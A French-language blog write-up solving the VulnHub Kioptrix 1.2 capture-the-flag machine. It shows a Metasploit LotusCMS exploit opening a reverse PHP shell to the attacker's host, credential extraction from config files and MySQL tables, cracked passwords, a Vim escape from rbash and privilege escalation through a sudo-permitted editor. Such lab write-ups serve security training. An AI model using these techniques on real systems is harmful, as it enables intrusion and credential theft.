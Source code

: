 ```yaml
---
title: "Solution du CTF Kioptrix: 1.2 de VulnHub"
tags: [CTF, VulnHub]
---
```


Voici la solution du [CTF Kioptrix 1.2](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/) qui date d'avril 2011  

CMS en mousse
-------------

```plain
Nmap scan report for 192.168.1.28
Host is up (0.00019s latency).
Not shown: 65532 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp   open     http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Ligoat Security - Got Goat? Security ...
9874/tcp filtered unknown
```

Sur le serveur Apache se trouve un CMS que [Wappalizer](https://www.wappalyzer.com/) ne reconnaît pas mais si on se rend sur la page de login on peut lire *Proudly Powered by: LotusCMS*  

On trouve facilement un [exploit Metasploit](https://www.exploit-db.com/exploits/18565/) pour ce CMS et comme la *DisclosureDate* est au 3 mars 2011 dans le code de l'exploit ça en fait un très bon candidat...  

Au passage il y a aussi sur le site une galerie PHP dont on trouve facilement le nom (*Gallarific*) grâce à la présence du balise méta. Il existe différents exploits là aussi trouvables sur *exploit-db*.  

Grace au module Metasploit l'exploitation est aisée :  

```plain
msf exploit(lcms_php_exec) > show options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.1.28     yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /                yes       URI
   VHOST    kioptrix3.com    no        HTTP server virtual host

Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.3      yes       The listen address
   LPORT  9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0

msf exploit(lcms_php_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.3:9999 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Command shell session 3 opened (192.168.1.3:9999 -> 192.168.1.28:40897) at 2018-02-14 21:04:35 +0100
id;uname -a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
```

On trouve deux utilisateurs sur le système: *dreg* et *loneferret*.  

Ainsi que les identifiants SQL dans la configuration de la galerie (rien pour le CMS qui est file-based) :  

```php
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

L'historique de l'un des utilisateurs est lisible :  

```plain
www-data@Kioptrix3:/home$ cat loneferret/.bash_history
sudo ht
exit
```

Je décide de faire un tour du côté du MySQL :  

```plain
www-data@Kioptrix3:/etc$ mysql -u root -p
mysql -u root -p
Enter password: fuckeyou

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| gallery            | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)

mysql> use gallery;
use gallery;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------+
| Tables_in_gallery    |
+----------------------+
| dev_accounts         | 
| gallarific_comments  | 
| gallarific_galleries | 
| gallarific_photos    | 
| gallarific_settings  | 
| gallarific_stats     | 
| gallarific_users     | 
+----------------------+
7 rows in set (0.00 sec)

mysql> select * from dev_accounts;
select * from dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | 
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | 
+----+------------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from gallarific_users;
select * from gallarific_users;
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
| userid | username | password | usertype  | firstname | lastname | email | datejoined | website | issuperuser | photo | joincode |
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
|      1 | admin    | n0t7t1k4 | superuser | Super     | User     |       | 1302628616 |         |           1 |       |          | 
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
1 row in set (0.00 sec)
```

Passwords faibles
-----------------

On retrouve facilement les mots de passe des utilisateurs qui sont respectivement *Mast3r* pour *dreg* et *starwars* pour *loneferret*.  

Ca tombe bien, dreg a le même mot de passe pour le système :  

```plain
$ ssh dreg@192.168.1.28
dreg@192.168.1.28's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
dreg@Kioptrix3:~$ sudo -l
[sudo] password for dreg: 
Sorry, user dreg may not run sudo on Kioptrix3.
dreg@Kioptrix3:~$ cd ..
rbash: cd: restricted
```

On est dans un environnement restreint (*rbash*) qui ne nous permet pas de sortir du dossier courant.  

Heureusement on peu en sortir en passant par Vim via les commandes suivantes (définir un shell différent et l'exécuter) :  

```plain
:set shell=/bin/bash
:shell
```

Mais en réalité tout celà ne sert à rien puisque le mot de passe pour *loneferret* est aussi bon :  

```plain
dreg@Kioptrix3:~$ su loneferret         
Password: 
loneferret@Kioptrix3:/home/dreg$ id
uid=1000(loneferret) gid=100(users) groups=100(users)
```

C'est du gâteau
---------------

On sait que l'utilisateur peut lancer [HT Editor]({% link _posts/2011-01-09-Tutoriel-d-utilisation-de-HT-Editor.md %}) en tant que root.  

*HT* est un désassembler mais aussi un éditeur de texte classique. Il suffit donc d'aller ouvrir le dossier /root puis de lire le flag (*Congrats.txt*).  

![Kioptrix3 flag opened with HT Editor](/assets/img/kioptrix/kioptrix3_ht.png)

Une erreur *Error opening terminal: xterm-256color* empêchait tout de même d'exécuter *HT*, il fallait y rémédier avec la commande *export TERM=xterm*.  


*Published February 22 2018 at 18:02*
